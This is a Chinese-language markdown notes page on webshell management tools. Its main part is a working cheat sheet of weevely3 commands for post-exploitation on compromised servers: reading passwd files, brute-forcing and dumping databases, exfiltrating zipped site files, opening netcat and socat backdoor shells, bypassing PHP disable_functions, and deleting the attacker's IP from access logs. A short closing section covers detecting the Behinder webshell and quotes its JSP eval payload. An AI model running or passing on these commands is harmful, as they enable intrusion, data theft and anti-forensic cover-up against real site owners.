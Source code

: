 ### Webshell管理工具

主控端proxy可"隐藏"主控端IP 亲测可用

|webshell名称|主控端|目标环境|主控端proxy|描述|
|:-------------:|--|--|-----|----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python2| php | [shell proxy](sec_proxy.md#shell-proxy)|更适合linux环境下的后渗透 |
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/Java/.NET|自带 http(s) proxy|“冰蝎” 动态二进制加密 webshell管理端|
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|/|TCP tunneling over HTTP/HTTPS for web application servers. [Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |


#### weevely3的后渗透功能总结

* 主机信息搜集(详细内容参考其他笔记)
  * 工具命令`system_info` 查看当前webshell文件位置 操作系统类型 根目录 php版本 当前用户名 外网IP 等
  * 工具命令`system_procs` 列出进程
  * 工具命令`:system_extensions` 查看php和web中间件信息 能看到apache_modules等信息
  * 工具命令`:audit_phpconf`
  * 工具命令`:audit_filesystem`  查看linux下关键目录 寻找 可写/可读/可执行 文件
* 文件操作
  * 读取文件命令`:audit_etcpasswd` 读取passwd文件(需要足够的权限)
  * 创建文件命令`touch -human-ts '2019-05-29 16:21:42' test.php` 创建文件 可设置创建时间
  * 下载文件命令`:file_download result.zip /Users/xxx/Downloads/result.zip` 把目标站的`result.zip` 下载到本地`Downloads/result.zip`
  * 上传文件命令`:file_upload /Users/xxx/Downloads/1.png file.png -force -vector fwrite`把本地文件/数据 上传到 远程目标站`file.png` 参数`-force`表示如果文件存在则强制覆盖
  * 上传文件命令`:file_upload -content "testdata" data.php` 把本地文件/数据 上传到 远程目标站`data.php`
  * 压缩文件命令`:file_zip site.zip ./` 把当前目录下所有文件压缩成site.zip 注意压缩过程可能被中断(判断方法是临时压缩文件大小不变) 建议重新执行压缩文件命令(实测某次压缩过程被中断6次才压缩成功 最终压缩包大小为2G)
  * 压缩文件命令`:file_gzip site.gz ./` 只支持linux
  * 搜索内容命令`:file_grep ./ "pass"` 不建议搜索大目录
* net网络请求
  * 端口扫描 - 使用PHP函数[fsockopen](https://www.php.net/manual/en/function.fsockopen.php)实现
    * 工具命令`:net_scan 127.0.0.1 21,22,80,443,1433,3306,3389,7001`
  * proxy
    * 工具命令`:net_proxy` 使用目标主机发起http(s)请求
    * 工具命令`:net_curl http://ipconfig.io/json`  模拟curl 使用目标主机发起http(s)请求
* DB数据库操作
  * SQL交互
    * 工具命令`sql_console -user USER -passwd PASS123 -host 10.2.3.4` 连接MySQL成功则能交互式执行SQL语句
      * 对MySQL进行信息搜集 `SELECT version();` `show databases;`
  * 暴力枚举数据库用户名和口令 只支持mysql和pgsql
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users root -pwds db123456 admin123` 简单枚举 成功会出现`root:pass`
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`字典枚举
  * dump数据库到本地（前提是MySQL需要权限 可导出文件到某目录）
    * 查看MySQL权限 `show global variables like '%secure_file_priv%';` 如果查询结果为NULL 则没有权限直接使用SQL语句导入导出文件 需要变通:
      * 把查询结果保存 ```SELECT * FROM `table1`;```  如果查询的数据量过大导致查询超时?
        * 先确定数据条数 ```SELECT COUNT(*) FROM `table1`;``` 再分多次查询 ```SELECT * FROM `table1` ORDER BY `id` ASC LIMIT 0,20;``` 从第1条数据开始(起点) 查询得到20条数据(数据量) 下次`LIMIT 20,20`再得到20条数据 以此类推 最后拼接查询结果 得到整个表的数据
    * 实现dump方式1 使用php实现(默认) 支持mysql,pgsql,sqlite,dblib  php代码见[weevely3/mysqldump.tpl](https://github.com/epinna/weevely3/blob/master/modules/sql/_dump/mysqldump.tpl) 原项目为[mysqldump-php](https://github.com/ifsnop/mysqldump-php)
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306` 把数据库dump 下载保存到本地目录`/var`下. 可指定保存为本地文件`-lpath /Users/xxx/Downloads/db1.sqldump`
    * 实现dump方式2 执行系统命令(只支持MySQL) 使用weevely中定义的php类`ShellCmd`执行系统命令启动`mysqldump`程序实现
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306 -vector mysqldump_sh`
* 派生shell
  * 正向shell`:backdoor_tcp`
    * 工具命令`:backdoor_tcp 8811 -vector netcat` 在目标主机(被控端)公网IP上开启端口监听 1.1.1.1:8811   主控端执行`nc 1.1.1.1 8811`
    * 工具命令`:backdoor_tcp 8811 -vector netcat_bsd`
    * 工具命令`:backdoor_tcp 8811 -vector python_pty`
    * 工具命令`:backdoor_tcp 8811 -vector socat`
  * 反向shell`:backdoor_reversetcp`
* 命令交互
  * 执行PHP代码 - `:shell_php "phpinfo();"`
  * 执行系统命令 - `:shell_sh pwd -vector proc_open`
  * bypass disable_functions 方法1 - 使用Apache的mod_cgi模块和`.htaccess`文件
    * 工具命令`:audit_disablefunctionbypass` 如果失败会提示
    * 利用前提:Apache使用了mod_cgi模块
    * 问题:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
    * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
    * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
    * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
    * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 实现伪终端命令交互 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
  * bypass disable_functions 方法2 - json serializer的UAF漏洞
      * PHP 7.1-7.3 [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843) [exploits](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
* 攻击痕迹清理(详细内容参考其他笔记)
  * 删除某文件(access.log)中 有1.1.1.1的那些行(实测不一定成功 看权限)  自带[3种实现方式](https://github.com/epinna/weevely3/blob/caf8978a50754892f7282d451ad18ab417600636/modules/file/clearlog.py)
    * 使用php代码实现`:file_clearlog -vector php_clear 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector clearlog 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector old_school 1.1.1.1 access.log`

### 检测案例1 - 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为冰蝎webshell使用了加密通信流量(AES双向加密)，可绕过WAF/IDS等系统

检测方法:部署在web应用内部的OpenRASP能够看到后门操作日志（需安装 999-event-logger 插件）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```

检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)
